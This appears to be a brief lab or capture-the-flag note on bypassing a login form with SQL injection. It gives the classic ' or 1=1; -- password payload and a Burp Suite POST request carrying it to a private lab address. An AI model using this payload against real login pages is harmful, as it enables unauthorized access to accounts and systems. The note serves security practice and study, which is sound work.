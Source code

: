 
![[Pasted image 20231108091949.png]]


# Login SQL-Injection  

## Browser
Username: egal
Password: ``` ' or 1=1; --  ```

## Burp Suite

```
POST /routers/router.php HTTP/1.1
Host: 10.0.68.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.0.68.105
Connection: close
Referer: http://10.0.68.105/login.php
Cookie: PHPSESSID=ldhu662ju9tu9ke4a00isemnfj
Upgrade-Insecure-Requests: 1

username=test&password=%27+or+1%3D1%3B+--+
```
